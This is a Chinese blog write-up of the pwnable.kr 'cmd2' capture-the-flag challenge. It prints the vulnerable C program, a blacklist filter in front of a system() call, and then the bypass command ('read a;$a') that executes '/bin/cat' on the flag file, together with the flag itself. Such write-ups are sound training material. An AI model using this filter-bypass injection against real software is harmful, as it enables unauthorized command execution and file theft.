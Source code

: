 ```yaml
---
title: pwnable.kr-cmd2
date: 2018-01-28 14:35:22
tags: [pwnable.kr,PWN]
categories: CTF
---
```

## 前言
这和上一道题[pwnable.kr-cmd1](http://www.ktstartblog.top/index.php/archives/131/)相似，不过提升了难度，但总体还是很简单，适合我这样的新手。
## 分析
贴出`cmd2.c`的源码
```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "=")!=0;
	r += strstr(cmd, "PATH")!=0;
	r += strstr(cmd, "export")!=0;
	r += strstr(cmd, "/")!=0;
	r += strstr(cmd, "`")!=0;
	r += strstr(cmd, "flag")!=0;
	return r;
}

extern char** environ;
void delete_env(){
	char** p;
	for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
	delete_env();
	putenv("PATH=/no_command_execution_until_you_become_a_hacker");
	if(filter(argv[1])) return 0;
	printf("%s\n", argv[1]);
	system( argv[1] );
	return 0;
}

```
整个程序和上一道题逻辑类似。程序首先就把传入的环境变量全部删除，然后重新定义`PATH`变量，接着进行关键字检查，最后执行传入的第一个参数。要想突破障碍getflag首先得清楚障碍是什么？
- 环境变量被删除。
这将使得无法通过环境变量来带入命令执行。
- `PATH`变量被乱写
这将无法直接执行外部命令。
- `filter`函数关键字检查黑名单
这个函数还是使用黑名单，但是把关键的字符和字符串都过滤了。无法使用绝对路径，无法重写`PATH`变量。
那么程序就没有弱点了吗？还是有的。
- 程序可以执行内部命令
- `filter`函数使用黑名单，存在绕过可能。
于是就有了下面的思路。我可以执行`read`命令写入一个环境变量，然后执行这个环境变量即可。
```bash
cmd2@ubuntu:~$ ./cmd2 "read a;\$a"
read a;$a
/bin/cat /home/cmd2/flag
FuN_w1th_5h3ll_v4riabl3s_haha
cmd2@ubuntu:~$ 

```
## 知识点
`read`命令从键盘读取变量的值，通常用在shell脚本中与用户进行交互的场合。该命令可以一次读取多个变量的值，变量和输入的值都需要使用空格隔开。在read命令后面，如果没有指定变量名，读取的数据将被自动赋值给特定的变量REPLY 。
## 总结
这道题在掌握了linux命令的情况下也还是挺简单的，对于我这样的新手来说还是学到了不少东西，对命令的使用也更深刻。
